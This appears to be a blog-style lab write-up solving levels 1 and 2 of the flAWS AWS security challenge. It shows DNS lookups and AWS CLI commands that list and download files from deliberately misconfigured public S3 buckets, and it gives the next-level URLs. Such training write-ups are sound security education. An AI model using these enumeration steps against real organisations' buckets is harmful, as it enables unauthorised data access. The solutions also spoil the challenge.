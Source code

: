 ```yaml
---
title: flAWS 1
date: 2022-03-31 12:00:00 +0500
categories: [Lab Practice Notes, AWS Labs]
tags: [aws,lab,flaws1,security]
image:
  path: /assets/img/covers/flaws-cover.jpeg
  alt: flAWS Artwork
---
```


## Level 1

> This level is *buckets* of fun. See if you can find the first sub-domain.
{: .prompt-info }

Begin with doing a `dig` of `flaws.cloud`, which returns the following &rarr; 

```
; <<>> DiG 9.16.1-Ubuntu <<>> flaws.cloud
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 55678
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 85e57acc1b19ec52 (echoed)
;; QUESTION SECTION:
;flaws.cloud.                   IN      A

;; ANSWER SECTION:
flaws.cloud.            15      IN      A       52.92.212.219

;; Query time: 531 msec
;; SERVER: 192.168.65.5#53(192.168.65.5)
;; WHEN: Thu Mar 31 21:09:06 CDT 2022
;; MSG SIZE  rcvd: 79
```

Then do an `nslookup` for the IP found, which gives the following &rarr; 

```
219.212.92.52.in-addr.arpa      name = s3-website-us-west-2.amazonaws.com.
Authoritative answers can be found from:
```

This gives hint of a static website running from S3 at `s3-website-us-west-2.amazonaws.com`. This also confirms that the non-DNS URL for the challenge is at `flaws.cloud.s3-website-us-west-2.amazonaws.com`.

Now, a new profile for `flaws` can be created with the region set to `us-west-2` and given that S3 is being used, permissions can be checked using the following &rarr; 

```bash
# no sign request is used to call without credentials
awsn s3 ls s3://flaws.cloud --no-sign-request --profile flaws
```

This gives the result &rarr; 

```
2017-03-13 22:00:38       2575 hint1.html
2017-03-02 22:05:17       1707 hint2.html
2017-03-02 22:05:11       1101 hint3.html
2020-05-22 13:16:45       3162 index.html
2018-07-10 11:47:16      15979 logo.png
2017-02-26 19:59:28         46 robots.txt
2017-02-26 19:59:30       1051 secret-dd02c7c.html
```

`robots.txt` and `secret-dd02c7c.html` seem interesting.

These can be retrieved using the command &rarr; 

```bash
aws s3 cp s3://flaws.cloud/robots.txt ./
```

The robots file did not give anything but the secret file gave the link to the next level as `http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`. Files can also be listed by directly going to `flaws.cloud.s3.amazonaws.com`.

---

## Level 2

> The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the free tier.
{: .prompt-info }

Calling `s3 ls` again on the discovered bucket gives an access denied message &rarr; 

```bash
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --no-sign-request
```

However, calling it with a valid profile lists the bucket which means that the bucket did not have proper permissions configured i.e., it allowed everyone to list items and get items. Retrieving the secret file gives the URL for the next level as &rarr; `http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud`.

---